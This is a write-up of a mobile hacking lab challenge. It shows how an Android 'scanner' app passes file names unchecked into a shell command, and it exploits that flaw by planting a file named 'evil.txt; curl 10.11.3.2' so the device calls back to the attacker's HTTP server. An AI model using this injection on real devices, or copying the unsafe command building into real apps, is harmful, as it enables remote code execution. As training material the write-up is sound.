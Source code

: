 ```yaml
---
author: pl4int3xt
layout: post
title: Lab - Cyclic Scanner
date: '2024-07-04'
description: "Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device."
# cover: featured.png 
useRelativeCover: true
categories: [Mobile Hacking Lab]
---
```


![img-description](featured.png)

## Introduction
Welcome to the Cyclic Scanner Challenge! This lab is designed to mimic real-world scenarios where vulnerabilities within Android services lead to exploitable situations. Participants will have the opportunity to exploit these vulnerabilities to achieve remote code execution (RCE) on an Android device.
## Objective
* Exploit a vulnerability inherent within an Android service to achieve remote code execution.

## Skills Required

* Mastery in reverse engineering Android applications.
* In-depth understanding of Android application architecture, especially Android services, and their inherent vulnerabilities.


The app uses a switch to start the scanner which is a foreground service

![img-description](1.png)

Let's download vpn file and use adb to connect to the lab

```shell
pl4int3xt@archlinux ~> adb connect 10.11.1.1:5001 
connected to 10.11.1.1:5001
```

Let's locate the third party apps installed with adb 

```shell
pl4int3xt@archlinux ~> adb shell pm list packages -3
package:com.mobilehackinglab.cyclicscanner
```

Let's get the path of the cyclicscanner app

```shell
pl4int3xt@archlinux ~> adb shell pm path com.mobilehackinglab.cyclicscanner
package:/data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

Let's pull the app for static analysis with jadxgui

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb pull /data/app/~~qM4I86KbSswb6BplSzhL0A==/com.mobilehackinglab.cyclicscanner-rtyKTMCcoKLT7WV1i1hWWA==/base.apk
```

In the `AndroidManfest.xml` file the `MainActivity` is exported and we have a `ScanService` which is not exported.

```xml
<activity
    android:name="com.mobilehackinglab.cyclicscanner.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
<service
    android:name="com.mobilehackinglab.cyclicscanner.scanner.ScanService"
    android:exported="false"/>
```

The application also needs external storage permissions for reading and writing files across shared storage and a foreground service permission which perform operations that are noticeable to the user and must display a notification to the user.

```xml
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
```

In the `MainActivity` we have `setupSwitch` function that uses the switch to start `ScanService.class` using an `Intent`.

```java
public static final void setupSwitch$lambda$3(MainActivity this$0, CompoundButton compoundButton, boolean isChecked) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    if (isChecked) {
        Toast.makeText(this$0, "Scan service started, your device will be scanned regularly.", 0).show();
        this$0.startForegroundService(new Intent(this$0, (Class<?>) ScanService.class));
        return;
    }
    Toast.makeText(this$0, "Scan service cannot be stopped, this is for your own safety!", 0).show();
    ActivityMainBinding activityMainBinding = this$0.binding;
    if (activityMainBinding == null) {
        Intrinsics.throwUninitializedPropertyAccessException("binding");
        activityMainBinding = null;
    }
    activityMainBinding.serviceSwitch.setChecked(true);
}

private final void startService() {
    Toast.makeText(this, "Scan service started", 0).show();
    startForegroundService(new Intent(this, (Class<?>) ScanService.class));
}
```

Further analyzing the `ScanService` class the `handleMessage` function will tranverse through all files and call `ScanEngine.INSTANCE.scanFile(file)` to check is the files are infected or safe.

```java
@Override // android.os.Handler
public void handleMessage(Message msg) {
    Intrinsics.checkNotNullParameter(msg, "msg");
    try {
        System.out.println((Object) "starting file scan...");
        File externalStorageDirectory = Environment.getExternalStorageDirectory();
        Intrinsics.checkNotNullExpressionValue(externalStorageDirectory, "getExternalStorageDirectory(...)");
        Sequence $this$forEach$iv = FilesKt.walk$default(externalStorageDirectory, null, 1, null);
        for (Object element$iv : $this$forEach$iv) {
            File file = (File) element$iv;
            if (file.canRead() && file.isFile()) {
                System.out.print((Object) (file.getAbsolutePath() + "..."));
                boolean safe = ScanEngine.INSTANCE.scanFile(file);
                System.out.println((Object) (safe ? "SAFE" : "INFECTED"));
            }
        }
        System.out.println((Object) "finished file scan!");
    } catch (InterruptedException e) {
        Thread.currentThread().interrupt();
    }
    Message $this$handleMessage_u24lambda_u241 = obtainMessage();
    $this$handleMessage_u24lambda_u241.arg1 = msg.arg1;
    sendMessageDelayed($this$handleMessage_u24lambda_u241, ScanService.SCAN_INTERVAL);
}
```

Looking at the `ScanEngine` class we analyze the `scanFile` that takes in a `file` as a parameter. The file name is directly concatenated to the `command` variable without any checks `String command = "toybox sha1sum " + file.getAbsolutePath()`. This is a `command injection` flaw. All we need to do is to create a file with a command name as the filename. 

```java
public final boolean scanFile(File file) {
    Intrinsics.checkNotNullParameter(file, "file");
    try {
        String command = "toybox sha1sum " + file.getAbsolutePath();
        Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        try {
            BufferedReader reader = bufferedReader;
            String output = reader.readLine();
            Intrinsics.checkNotNull(output);
            Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(bufferedReader, null);
            return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
        } finally {
        }
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
}
```

Let's start a python server 
```shell
pl4int3xt@archlinux ~/D/mobile-hacking [1]> sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:80/) ...
```

Let's check our ip with the following command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> ip a s tap0
```

Next we need to create a file and name it `evil.txt; curl 10.11.3.2` with our `tap0` ip.

Let's create the file in our machine

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> touch "evil.txt; curl 10.11.3.2"
```

Next we need to push it in the device storage

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb push "evil.txt; curl 10.11.3.2" /storage/emulated/0/
```

Launching the scanner app we get this meaning the command injection worked successfully

```shell
10.11.3.2 - - [03/Jul/2024 14:33:18] "GET / HTTP/1.1" 200 -
```

